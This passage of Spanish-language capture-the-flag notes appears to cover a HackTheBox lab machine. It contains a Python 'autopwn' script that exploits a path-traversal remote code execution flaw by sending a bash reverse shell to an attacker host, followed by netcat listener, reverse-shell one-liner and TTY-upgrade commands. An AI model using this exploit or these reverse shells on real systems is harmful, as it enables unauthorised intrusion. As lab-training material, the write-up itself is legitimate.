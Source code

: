 ## Vuln exploit & Gaining Access {-}

### Autopwn.py {-}

```python
#!/usr/bin/python3

import requests
import sys
import signal
import pdb
import threading
import time

from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://10.10.10.165/.%0d./.%0d./.%0d./.%0d./bin/sh"
lport = 443

def makeRequest():

    data_post = {
        b'bash -c "bash -i >& /dev/tcp/10.10.14.20/443 0>&1"'
    }

    r = requests.post(main_url, data=data_post)

if __name__ == '__main__':

    try:
        threading.Thread(target=makeRequest, args=()).start()
    except Exception as e:
        log.error(str(e))

    p1 = log.progress("Acceso")
    p1.status("Ganando acceso al sistema")

    shell = listen(lport, timeout=5).wait_for_connection()

    if shell.sock is None:
        p1.failure("No ha sido posible ganar acceso al sistema")
        sys.exit(1)
    else:
        shell.interactive()
```

Lo ejecutamos

```bash
python autopwn.py
whoami
#Output
www-data

ifconfig
```

El tito prefiere entablarse una shell normal. Se pone en escucha con `nc -nlvp 443` y lanza en la shell creado por el script
`bash -i >& /dev/tcp/10.10.14.20/443 0>&1`

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```


